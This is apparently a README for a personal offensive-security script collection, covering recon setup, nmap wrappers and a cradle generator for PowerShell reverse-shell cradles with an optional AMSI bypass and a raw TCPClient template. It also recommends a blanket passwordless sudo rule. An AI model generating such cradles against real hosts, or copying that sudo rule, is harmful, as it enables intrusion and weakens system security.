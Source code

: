 # scripts

Here are a collection of scripts I use regularly for offensive security-related tasks.

![](img/recon_setup_demo.gif)

## Install

```bash
# Install dependencies (kali only)
sudo apt install python3-impacket python3-libtmux python3-requests python3-urllib3 python3-watchdog

# Clone repo
git clone https://github.com/Mojo8898/scripts.git ~/scripts

# Make nmap wrapper script executable
chmod +x ~/scripts/scan_machine.py
```

Some automated scripts including the built-in nmap wrapper require sudo to run properly. Add the following line to the bottom of your `/etc/sudoers` file using the command `sudo visudo` to prevent password prompts.

```
kali    ALL=(ALL) NOPASSWD: ALL
```

## Example Usage

### recon_setup.py

```bash
# Just configure working environment
python3 ~/scripts/recon_setup/recon_setup.py -i 10.10.10.10 testing ~/htb/competitive_Mojo098.ovpn

# Configure working environment and launch automated tasks
python3 ~/scripts/recon_setup/recon_setup.py -i 10.10.10.10 testing ~/htb/competitive_Mojo098.ovpn -a -u bob -p 'Password123!'
```

### scan_machine.py

```bash
python3 ~/scripts/scan_machine.py 10.10.10.10
```

### scan_targets.py

```bash
python3 ~/scripts/scan_targets.py external_hosts.txt
```

### cradle_gen.py

```bash
python3 ~/scripts/cradle_gen.py 10.10.10.10 9001 -l
```

**Note:**
- To include an AMSI bypass with the Powercat cradle, create a file named amsi_bypass.txt in this project’s root directory. This file should contain the AMSI bypass code that will be prepended to the generated cradle.
- To include a raw socket PowerShell cradle, create a file named raw_socket.txt in this project’s root directory. Within this file, define the connection using Python’s string formatting placeholders for lhost and lport. For example:

```
System.Net.Sockets.TCPClient('{lhost}',{lport})
```
